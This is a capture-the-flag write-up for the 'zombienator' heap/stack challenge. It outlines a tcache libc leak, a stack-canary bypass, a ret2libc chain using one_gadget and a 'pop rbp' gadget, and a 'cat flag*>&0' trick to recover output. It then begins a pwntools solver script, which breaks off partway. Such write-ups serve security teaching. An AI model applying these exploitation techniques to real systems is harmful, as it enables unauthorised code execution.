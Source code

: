 #### Exploitation path

* Make 9 allocations and free 8 chunks to leak a `libc` address via `tcache`.
* Demand a big amount of attacks, at least a bit bigger than the `double` buffer that we write to.
* Send `-` or `+` or `.` to bypass overwriting the canary.
* Perform a `ret2libc` attack with `one_gadget`, making sure we satisfy all the conditions (the only one not satisfied here for the first gadget is `rbp == NULL`)
* Find a `pop rbp ; ret` gadget inside `libc` to `nullify` `rbp`.
* Send the payload with `pwntools` `repr(struct.unpack("d", p64(payload)[0]))`. 
* Send `cat flag*>&0` to bypass `fclose(stderr)` and `fclose(stdout)`.

# Solution

```python
#!/usr/bin/python3
from pwn import *
from tqdm import tqdm
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './zombienator' 

# fclose cannot be bypassed locally
LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r = process(fname)
  gdb.attach(r, 
    '''
    b *attack+185
    c
    ''')
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

e    = ELF(fname)
libc = ELF(e.runpath.decode() + 'libc.so.6')

rl   = lambda     : r.recvline()
sl   = lambda x   : r.sendline(x)
ru   = lambda x   : r.recvuntil(x)
sla  = lambda x,y : r.sendlineafter(x,y)

r.timeout = 0.5

def create(tier, pos):
  sleep(0.1)
  sla('>> ', '1')
  sla('tier: ', str(tier))
  sla('5-9): ', str(pos))

def remove(pos):
  sleep(0.1)
  sla('>> ', '2')
```